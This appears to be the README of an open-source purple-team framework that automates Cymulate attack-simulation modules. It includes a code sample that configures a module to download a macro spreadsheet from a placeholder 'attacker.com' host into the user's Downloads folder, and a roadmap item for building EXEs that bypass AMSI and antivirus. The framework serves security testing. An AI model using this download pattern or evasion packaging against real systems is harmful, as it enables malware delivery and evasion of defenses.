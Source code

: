 # cymulate-framework

![](https://i.imgur.com/B9Z8nyQ.png)

- **ⓘ Notice**: This project is still under development and not ready for production use.

- **⚠ Warning**: Do not run this project on production environment if you have no idea what you are doing.

## Introduction

The framework to automate Cymulate's modules and templates for purple team.

**What is Cymulate?**

> [Cymualte](https://cymulate.com/) is a BAS (Break and Attack Simulation) platform that provides a comprehensive set of attack simulations based on the **MITRE ATT&CK® framework** to test the effectiveness of your security controls.

This project is aimed to help Purple Team to:
- **Red team** : Construct fully customizable and automated APT attacks easily.
- **Blue team** : Test their security defenses against APT attacks easily.

## Functionality

- [ ] Scrape modules and templates from Cymulate and transform them into scripts.
- [ ] Automate the execution of templates such as APT, Phishing, etc.
- [ ] Generate standalone EXE for templates and bypass AMSI, Antivirus

## Usage

Make sure `python 3.11+` and `poetry` are installed:

- **Python 3.11+** - https://www.python.org/downloads/
- **Poetry** - https://python-poetry.org/docs/#installation

```bash
git clone https://github.com/opabravo/cymulate-framework
cd cymulate-framework

# Install required python packages
poetry install

# Activate virtual environment
poetry shell

# Run default template (APT34)
python main.py

# Run desired execution module by id
python main.py <module_id>

# Ex:
python main.py 62385f03a0e69ed2274622cc
```

Batch Scripts:

- `client_start.bat` - Reset and update to the latest version of the framework then run `main.py`

## How it works

Cymulate's execution module have 5 main steps:

1. **Check dependency** - Check if required dependencies are installed.
2. **Execution** -Run the mitre ATT&CK technique execution.
3. **Success Indicate** - Check if the attack was successful via parsing execution output or check exit code.
4. **Output Parsing** - Parse the output of the execution for further uses.
5. **Cleanup** - Clean up the execution environment.

The framework will automate the execution of the above steps.

## Customization

We can pass self defined parameters to the execution module like this:

```python
# Import windows module from core
from core.module.windows import WindowsModule

# Create a windows module instance
execution = WindowsModule("62385f03a0e69ed2274622cc", log_level="DEBUG")

# Update the input arguments to your own ones
execution.input_arguments.update({
    "download_file_url": "https://attacker.com/very_dangerous_excel.xlsx",
    "download_file_path": "$env:userprofile\Downloads\Income.xlsm",
})

# Execute the module after initialization
execution.run()
```

## Development

### Blueprint

- `Basic structure` - The basic structure of the project.
- `APT template` - APT template automation test.
- `Scrape modules and templates` - Scrape modules and templates via Cymulate's [API](https://api.app.cymulate.com/docs/#/)
- `Transform modules and templates` - Transform modules and templates into cymulate-framework modules.
- `Automate execution` - Automate the execution of templates.
- `APT Script generator` - Generate scripts for APT template with extracted specific execution scripts (don't wanna load the 20+mb json file) and load corresponding required 3rd party pip packages into scripts
- `Pack Script to EXE` - Pack generated template script with its requirements(pip packages, execution scripts) into EXE via `pyisntaller`, `py2exe` or `Nuitka`
- `ClI` - A CLI to interact with the framework.

### Notes

- Using `builtin dataclass` + `dacite` for JSON deserializing model instead of `pydantic` since `dacite` is enough for the purpose.

## Contributing

Feel free to submit pull requests and issues.

## License

[MIT](https://choosealicense.com/licenses/mit/)
